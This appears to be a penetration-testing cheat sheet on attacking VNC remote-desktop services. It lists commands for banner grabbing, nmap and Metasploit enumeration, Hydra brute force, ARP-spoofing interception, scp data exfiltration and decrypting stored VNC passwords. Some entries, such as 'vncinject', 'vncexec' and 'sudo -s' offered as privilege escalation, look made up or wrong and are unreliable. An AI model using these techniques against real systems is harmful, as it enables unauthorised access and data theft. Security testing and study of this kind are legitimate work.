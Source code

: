 # 5800,5801,5900,5901 - Pentesting VNC

## Basic Information

**Virtual Network Computing (VNC)** is a graphical desktop-sharing system that allows users to remotely control another computer's desktop over a network connection. It is widely used for remote administration, support, and screen sharing.

VNC operates on a client-server architecture, where the VNC server runs on the remote computer and the VNC client software is used to access and interact with the remote desktop.

VNC usually uses ports **5800 or 5801 or 5900 or 5901.**

```
PORT    STATE SERVICE
5900/tcp open  vnc
```
## Connect
```
# Connect Using VNC Viewer
VNC Viewer is a popular client software used to connect to VNC servers:
vncviewer <target-ip>:<port>

## Connect Using Remmina
Remmina is another remote desktop client that supports VNC connections:
remmina
```
## Banner Grabbing
Banner grabbing can be performed using tools like Netcat to identify VNC services and their versions:
```
nc -nv <target-ip> 5900
```
## Enumeration

```bash
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p <PORT> <IP>
msf> use auxiliary/scanner/vnc/vnc_none_auth
```
## Default Authentication
VNC servers often use default or weak credentials. Enumeration involves trying common username-password combinations:
```
vncviewer -passwd passwords.txt <target-ip>
```
### [**Brute force**](../generic-hacking/brute-force.md#vnc)

## Weak Authentication
Exploiting weak or default credentials is a common attack vector. Tools like Hydra can be used for brute-forcing VNC passwords:
```
hydra -V -f -L users.txt -P passwords.txt vnc://<target-ip>
```
## Man-in-the-Middle (MITM) Attacks
MITM attacks can intercept VNC traffic and manipulate data exchanged between the client and server:
```
arpspoof -i <interface> -t <target-ip> <gateway-ip>
```
## VNC Injection
Attackers can inject keystrokes and mouse movements into VNC sessions to gain control over the remote desktop:
```
vncinject <target-ip>
```
## Post-Exploitation
Remote Code Execution (RCE)
Successful exploitation may lead to remote code execution, allowing attackers to execute arbitrary commands on the target system:
```
vncexec <target-ip> ls -la
```
## Data Exfiltration
Attackers can exfiltrate sensitive data from the remote desktop:
```
scp user@<target-ip>:/path/to/file /local/path
```
## Privilege Escalation
Exploiting vulnerabilities in the VNC server software or the underlying operating system can lead to privilege escalation:
```
sudo -s
```

### Connect to vnc using Kali

```bash
vncviewer [-passwd passwd.txt] <IP>::5901
```

### Decrypting VNC password

Default **password is stored** in: \~/.vnc/passwd

If you have the VNC password and it looks encrypted (a few bytes, like if it could be an encrypted password), it is probably ciphered with 3des. You can get the clear text password using [https://github.com/jeroennijhof/vncpwd](https://github.com/jeroennijhof/vncpwd)

```bash
make
vncpwd <vnc password file>
```

You can do this because the password used inside 3des to encrypt the plain-text VNC passwords was reversed years ago.\
For **Windows** you can also use this tool: [https://www.raymond.cc/blog/download/did/232/](https://www.raymond.cc/blog/download/did/232/)\
I save the tool here also for ease of access:

{% file src="../.gitbook/assets/vncpwd.zip" %}

## Shodan

* `port:5900 RFB`

NC - Port 5900 

## We always find openVNCs in an engagement. 

VNC Authentication Scanner 

Module will test a VNC server on a range of machines and report successful logins. Currently it supports RFB protocol version 3.3, 3.7, 3.8 and 4.001 using the VNC challenge response authentication method. 
```
use auxiliary/scanner/vnc/vnc_login 
```
## VNC Password 

~/.vnc/passwd is the default location where the VNC password is stored. The password is stored at this location when the vncserver starts for a first time. To update or change your VNC password you should use vncpasswd command. 
```
echo MYVNCPASSWORD | vncpasswd -f > ~/.secret/passvnc 
Warning: password truncated to the length of 8. 
cat ~/.secret/passvnc 
kRS�ۭx8 
Now, if we have found the password file of the VNC on some CTF challenge or vulnerable machine, we can either decrypt it (to know the password) using VNC Password Decrypter or use the password file while using vncviewer 
vncviewer hostname-of-vnc-server -passwd ~/.secret/passvnc 
 
-passwd passwd-file File from which to get the password (as generated by the vncpasswd(1) program). This option affects only the standard VNC authentication.
````
